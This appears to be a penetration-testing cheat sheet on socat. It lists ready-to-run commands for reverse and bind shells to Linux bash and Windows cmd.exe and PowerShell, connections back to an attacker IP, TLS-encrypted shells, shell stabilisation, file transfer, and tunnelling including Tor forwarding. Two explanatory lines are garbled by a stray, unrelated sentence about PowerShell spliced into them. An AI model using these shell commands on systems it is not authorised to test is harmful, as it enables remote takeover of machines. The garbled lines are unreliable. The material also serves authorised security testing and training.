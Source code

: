 # Socat 

[Socat](https://linux.die.net/man/1/socat) is a command-line utility that establishes two bidirectional byte streams and transfers data between them. For penetration testing, it is similar to Netcat but has additional useful features. 

Socat requires:
1. "-" to transfer data between STDIO and remote host
1. protocol name
1. Any protocols, options, port ARE colon delimited

```bash
socat - TCP4:<remoteIP>:PORT

socat TCP4-LISTEN:8080 STDOUT

socat TCP4:ip:port EXEC:/bin/bash
```

## Reverse Shells
Start a listener:
```bash
socat TCP-L:<PORT> -                                 # connect regardless with '-'
socat -d -d TCP-LISTEN:8080 STDOUT                   # -d -d = increase verbosity of output#
socat TCP4-LISTEN:8080,fork file:filename.txt,create 
# create specifies that a new file will be created.
# fork creates a child process once connection is made to the listener(multiple connections allowed)
```

Connect to reverse Shell:
```powershell
# Windows!
.\socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
.\socat.exe TCP:<IP>:<Port> EXEC:cmd.exe,pty,stderr,setsid,sigint,sane
```
On Linux
```bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

## Bind Shells
Start a bind listener
```bash
socat TCP-L:<PORT> EXEC:"bash -li"
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```
Connect to target regardless:
```bash
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

## Shell stablisation
```bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0
[CTRL+Z]
stty raw -echo; fg 
```

Fixing terminal size
```bash
stty size
stty -rows 48 -columns 120
```

## File transfers
```bash
socat TCP4-LISTEN:$PORT,fork file:$filename
```

## Special upload precompiled socat binary 
```bash
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
1. pty, allocates a pseudoterminal on the target -- part of the stabation, knowing how to properly use PowerShell to achieve our goals is extremely important. Refer toilisation process
1. stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
1. sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
1. setsid, creates the process in a new session
1. sane, stabilises the terminal, attempting to "normalise" it

Similiarly on Windows:
```batch
.\socat.exe TCP-LISTEN:443,fork EXEC:cmd.exe,pty,stderr,setsid,sigint,sane
```


### Encrypted Shells
 
Generate a Certificate
```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt
```
req indicates that this is a certificate signing request. 
-x509 specifies that we want an X.509 certificate
-newkey rsa:4096 creates a new certificate request and a new private key using RSA, with the key size(Optional sizes!) being 4096 bits. 
-days 365 shows that the validity of our certificate will be one year
-subj sets data, such as organization and country, via the command-line.
-nodes simplifies our command and does not encrypt the private key
-keyout `PRIVATE\_KEY` specifies the filename where we want toation, knowing how to properly use PowerShell to achieve our goals is extremely important. Refer to save our private key
-out CERTIFICATE specifies the filename to which we want to write the certificate request

Merge the two files:
```bash
cat shell.key shell.crt > shell.pem
```
Setup reverse shell listener 
```bash
# Linux
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 - # verify=0 means dont bother trying to validate cert 
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0,fork EXEC:/bin/bash
```
If on windows:
```powershell
.\socat.exe OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:cmd.exe,pty,std
err,setsid,sigint,sane
```

The same for bind shell
```powershell
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash # For windows after:" ,verify=0 EXEC='cmd.exe' "
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```
Socat listener and conection on windows
```bash
socat.exe -d OPENSSL-LISTEN:5678,cert=<cert>, verify=0 STDOUT, bind=127.0.0.1
socat.exe OPENSSL:127.0.0.1:5678, verify=0 EXEC=’cmd.exe
```

## Less Common Cool Usages
```bash
# Connect to a http server
socat TCP4:domain.com:80 -
# Connect to a https server
socat TCP4:domain.com:443 -

# Output hexdump from a port
socat -x tcp-listen:$port,fork -

# (sleep is necessary to prevent socat closing socket before data received)
(echo -e "GET / HTTP/1.1\r\nHost: butzel.info\r\n\r" && sleep 1) \ | socat TCP4:domain.com:80 -

# http to https 'Proxy' (for an webserver without TLS-Support)
socat OPENSSL-LISTEN:443,reuseaddr,pf=ip4,fork,cert=server.pem,cafile=client.crt,verify=0 TCP4-CONNECT:127.0.0.1:80

# udp to tcp
socat -u udp-recvfrom:1234,fork tcp:localhost:4321

# TOR-forwarding (needs tor-daemon on port 9050 running)
socat tcp4-listen:8080,reuseaddr,fork socks4A:127.0.0.1:t0rhidd3ns3rvice.onion:80,socksport=9050
#https://superuser.com/questions/1302861/how-i-can-make-port-forwarding-using-tor#1302869
```

[[Port-Redirection-And-Tunneling]] with Socat
```bash
socat TCP4-LISTEN:$port,reuseaddr,fork TCP4:domain.com:ssh
```
`
## References

[jackadamson](https://jackadamson.github.io/cheatsheets/socat/)
[gothburz](https://github.com/gothburz/OSCP-PWK2.0/blob/master/practical-tools/socat-shell-cheatsheet.md)
[cheat](https://github.com/cheat/cheatsheets/blob/master/socat0)